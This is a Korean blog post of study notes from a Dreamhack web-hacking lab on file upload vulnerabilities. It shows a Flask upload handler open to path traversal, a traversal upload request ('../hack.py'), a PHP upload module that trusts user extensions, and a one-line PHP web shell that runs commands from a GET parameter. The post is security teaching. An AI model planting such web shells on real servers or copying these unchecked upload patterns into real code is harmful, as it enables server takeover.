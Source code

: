 ```yaml
---
layout : single
title : "[Dreamhack] STAGE8. File Vulnerability (1)"
categories: web-hacking
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking - ServerSide : File Vulnerability (1)

-  [x] 웹 셸 업로드 실습
-  [x] 악성 파일 업로드 실습


## ServerSide : File Vulnerability

이미지, 문서 등 파일 공유 서비스를 개발할 때, 이용자가 업로드한 파일을 데이터베이스가 아닌, 서버의 파일시스템에 저장하는 것이 개발하기 더 쉬복, 관리 효율이 높다. 그러나, 이러한 방식은 임의 파일이 다운로드 되는 취약점이나, 악성 웹셸 파일을 업로드하여 임의 코드를 실행할 수 있는 취약점을 발생시키기도 한다. File Vulnerability는 파일 업로드 취약점인  File Upload Vulnerability와 다운로드 취약점인 File Download Vulnerability로 나뉜다. 

- File Upload Vulnerability : 파일 시스템 상 임의 경로에 원하는 파일을 업로드하거나, 악성 확장자를 갖는 파일을 업로드할 수 있을 때 발생한다. 원하는 시스템 커맨드를 실행하는 워격 코드 실행 취약점을 유발할 수 있다

- File Download Vulnerability : 공격자는 웹 서비스의 파일 시스템에 존재하는 임의 파일을 다운로드 받을 수 있으며, 이에는 패스워드 파일, 데이터베이스 백업본 등이 포함되어, 민감한 정보의 탈취 및 2차 공격 수행이 가능하다

## File Upload Vulnerability
웹 서비스를 통해 이용자의 파일을 서버의 파일 시스템에 업로드하는 과정에서 발생하며, 이용자가 업로드될 파일의 이름을 임의로 정할 수 있을 때 발생한다. 파일 이름에 이용자가 입력한 문자열을 그대로 사용하거나, 이용자의 이메일, 닉네임 등을 포함시키는 등의 소스 코드 패턴이 이러한 취약점을 발생시킨다. 

### Path Traversal
파일 업로드를 허용하는 대개의 서비스는 보안을 위해 특정 디렉토리에만 업로드를 허용한다. 이러한 제한이 없다면, 악의적인 이용자가 웹 서버의 소스 코드나 서버에 있는 중요 시스템 파일을 덮어쓸 위험이 있다. Path Traversal은 업로드에 존재하는 이러한 제약을 우회하여, 임의 디렉토리에 파일을 업로드할 수 있는 취약점을 뜻한다.<br>

아래 코드는 Path Traversal 취약점이 있는 코드이다

```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```

/fileUpload는 POST 요청을 받으면 클라이언트가 전송한 파일을 ./uploads에 저장한다. 이 때 이용자가 입력한 파일 이름 f.file을 그대로 사용하기 때문에, Path Traversal에 취약하다. 예를 들어, 공격자가 ../와 같은 메타문자를 사용한다면, uploads를 벗어나 상위 디렉토리에 파일 업로드할 수 있다.<br>

**정상적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 정상적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, uploads 폴더에 test.txt가 생성된다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```


**악의적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 악의적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, app.py와 같은 디렉토리에 hack.py가 생성된다. hack.py가 app.py를 덮는다면, 서버가 재실행될 때 임의 파이썬 코드를 실행할 수 있을 것이다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

---

### 악성 파일 업로드
악성 파일 업로드 취약점은 이용자가 파일을 업로드할 때 이를 제대로 검사하지 않아서 발생하는 취약점을 뜻한다. 

##### 웹 셸
웹 서버는 .php .jsp, .asp 와 같은 확장자의 파일을 CGI(Common Gatewqy Interface)로 실행하고, 그 결과를 이용자에게 반환한다. <br>
\*웹 셸 : 임의 시스템 명령어를 실행해주는 웹 리소스

```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이는 Apache 설정 파일로, 이용자가 요청한 파일의 확장자가 정규표현식을 만족하면, x-httpd-php로 핸들링하게 한다. x-httpd-php는 PHP 엔진으로, 요청한 파일을 실행하고 결과를 반환하며, .php, .php3, .phtml 의 확장자 파일들이 위 해당 정규표현식을 만족한다. <br><br>
위와 같은 방법으로 php 파일을 핸들링할 경우, 공격자가 임의의 php 파일을 .php 확장자로 업로드하고, GET 요청을 보낼 수 있다면 CGI에 의해 해당 코드가 실행되도록 할 수 있다.

##### 악의적인 웹 리소스
웹 브라우저는 파일의 확장자나 응답의 Content-Type에 따라 요청을 다양하게 처리한다. 요청한 파일의 확장자가 .html 또는, 반환된 Content-Type의 헤더가 text/html일 경우, 응답은 HTML 엔진으로 처리된다. 또한, 파일의 확장자가 .png, .jpg 등의 이미지 확장자이거나, Content-Type이 image/png일 경우에는 이미지로 렌더링 된다. <br><Br>
만약 공격자가 서버에 exploit.html을 업로드하고, 이에 접근하는 URL이 https:// dreamhack.io/uploads/exploit.html 이라면, 브라우저는 이를 HTML로 해석한다. 따라서 exploit.html에 악의적인 스크립트를 삽입하면, Cross-Site-Scripting (XSS) 공격으로 이어질 수 있습니다.

---

### 악성 파일 업로드 실습

악성 파일 업로드 모듈 구성 코드

```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```

파일 이름을 임의의 파일명 + . + 확장자 로 생성하므로, Path Traversal을 이용한 공격은 불가능하다. 하지만, 이용자가 올린 확장자를 별다른 검사 없이 사용하므로 php 웹셸을 업로드할 수 있다. 또한, html 파일을 업로드하여 Stored XSS를 수행할 수도 있다.<br>

##### 웹 셸 업로드

```php
<?php
  system("ls");
  system($_GET[x]);
?>
```

##### Stored XSS 시도

악성 파일 업로드

<img src = "/images/webbackground/12.png"><br>

업로드 된 파일 실행

<img src = "/images/webbackground/13.png"><br>